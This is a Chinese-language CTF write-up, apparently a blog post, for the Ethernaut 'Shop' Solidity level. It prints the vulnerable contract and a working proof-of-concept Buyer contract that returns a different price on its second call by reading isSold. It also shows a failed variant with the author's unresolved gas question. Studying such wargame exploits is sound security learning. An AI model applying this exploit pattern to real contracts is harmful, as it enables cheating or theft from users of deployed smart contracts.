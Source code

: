 ```javascript
}
```

# Shop

说白了就是自己的Buyer合约的price方法2次的返回值要不一样，第一次要大于等于100，第二次要小于100。我写了一下，但是一直有问题。。。还是我的问题，因为那个gas有3000的限制，不能访问storage：
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021041616082015.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3JmcmRlcg==,size_16,color_FFFFFF,t_70)
可以通过isSold来判断，POC如下：

```javascript
//SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.6.0;
contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price.gas(3000)() >= price && !isSold) {
      isSold = true;
      price = _buyer.price.gas(3000)();
    }
  }
}
contract Buyer {
    bool public flag = false;
  function price() public view  returns (uint){
      if(Shop(msg.sender).isSold() == true){
          return 1;
      }else{
          return 110;
      }
  }
  function attack(address target) public {
      Shop(target).buy();
  }
}

```

不过我一开始写的有问题。。就是Buyer合约：

```javascript
contract Buyer {
    bool public flag = false;
    Shop public target = Shop(address(0xaA4431855E966C98007E17732E78d9feB7adf848));
  function price() public view  returns (uint){
      if(target.isSold() == true){
          return 1;
      }else{
          return 110;
      }
  }
  function attack() public {
      target.buy();
  }
}
```

attack函数那里，直接用target的话不行，会gas出问题。目前还不清楚是为什么。。。（想了一下想不明白为什么。。。）

